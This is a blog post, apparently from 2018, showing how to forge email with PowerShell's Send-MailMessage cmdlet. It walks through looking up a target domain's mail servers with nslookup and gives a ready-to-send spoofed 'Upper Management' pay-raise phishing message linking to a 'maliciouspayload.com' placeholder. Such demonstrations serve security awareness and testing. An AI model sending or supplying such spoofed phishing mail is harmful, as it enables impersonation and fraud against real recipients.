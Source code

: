 ```yaml
---
layout: post
title:  "Email Spoofing With Powershell"
author: Michael
categories: [ powershell, spoofing, email ]
image: assets/img/spoofps1.png
featured: false
hidden: false
---
```

<p><img src="/assets/img/spoofps1.png"></p>
I had previously written about <a href="/email-spoofing/netcat">Email Spoofing With Netcat/Telnet<a/> and it was a seemingly instant hit. Even though the same commands were applicable to Windows users through telnet, which is off by default on Windows installations, or netcat if you chose to install it, neither is an immediate “pickup and go” solution. So both of those methods, while native to most Linux distros, require some added effort for Windows users to take advantage of them. While I was doing some research on this, I discovered there’s a built in Powershell cmdlet that allows you to do the same thing on Windows and seemingly much easier in my opinion.
<center><blockquote class="twitter-tweet"><p lang="en" dir="ltr">Powershell has a built in cmdlet called &quot;Send-MailMessage&quot; that makes email spoofing a breeze. One line and you can send HTML, Attachments, High Priority, whatever the heart desires. <a href="https://twitter.com/hashtag/Email?src=hash&amp;ref_src=twsrc%5Etfw">#Email</a> <a href="https://twitter.com/hashtag/EmailSpoofing?src=hash&amp;ref_src=twsrc%5Etfw">#EmailSpoofing</a> <a href="https://twitter.com/hashtag/Spoofing?src=hash&amp;ref_src=twsrc%5Etfw">#Spoofing</a> <a href="https://twitter.com/hashtag/Powershell?src=hash&amp;ref_src=twsrc%5Etfw">#Powershell</a> <a href="https://t.co/lSDYh8tEdg">pic.twitter.com/lSDYh8tEdg</a></p>&mdash; Michael (@The4rchangel) <a href="https://twitter.com/The4rchangel/status/1053047816270995457?ref_src=twsrc%5Etfw">October 18, 2018</a></blockquote> <script async src="https://platform.twitter.com/widgets.js" charset="utf-8"></script>
<blockquote>People ended up pretty excited about this cmdlet.</blockquote></center>

#### THE OPTIONS

If you reference the image at the top of the post, you’ll notice this command accepts many different kinds of input. You have all sorts of options including:
<ul>
<li>To:</li>
<li>From:</li>
<li>CC and BCC:</li>
<li>Subject:</li>
<li>SmtpServer:</li>
<li>Port</li>
<li>BodyAsHtml: (renders any HTML code in the body AS HTML)</li>
<li>Attachments</li>
<li>Encoding:</li>
<li>Priotity</li>
<li>and more…</li>
</ul>

#### FINDING AN SMTP SERVER

You can do this on Windows with “nslookup”:
```
PS C:\Users\Archangel> nslookup
Default Server:  REDACTED
Address:  192.168.29.1
> set q=mx
> gmail.com (any victims domain)
Server:  REDACTED
Address:  192.168.29.1
Non-authoritative answer:
gmail.com       MX preference = 30, mail exchanger = alt3.gmail-smtp-in.l.google.com
gmail.com       MX preference = 40, mail exchanger = alt4.gmail-smtp-in.l.google.com
gmail.com       MX preference = 5, mail exchanger = gmail-smtp-in.l.google.com
gmail.com       MX preference = 10, mail exchanger = alt1.gmail-smtp-in.l.google.com
gmail.com       MX preference = 20, mail exchanger = alt2.gmail-smtp-in.l.google.com
>
```
<blockquote> Any of the text following a '>' was typed by myself (the attacker)</blockquote>
Any of the “Mail Exchanger” servers will be SMTP servers you can try for the domain.

#### CRAFTING THE EMAIL

Here’s an example of some of the components of the in this cmdlet used to make craft an email:
```
Send-MailMessage -SmtpServer mail.contoso.com -Port 25 -To victim@contoso.com -From imtheboss@contoso.com -Priority High -Subject "Pay Raise" -BodyAsHtml -Body "Dear Michael, <br><br> We have decided to offer you a 90% pay raise. Please follow this link to confirm your interest and initiate the updated payroll: <a href='maliciouspayload.com'> Confirm Raise </a>. <br><br> Thank you, <br> Upper Management"
```
<p><center><img src="/assets/img/spoofps2.jpeg"></center></p>
There are also plenty of other options available to you, as seen from the Get-Help text at the top. Feel free to get creative! Hopefully your mail admin has the measures in place to prevent this.
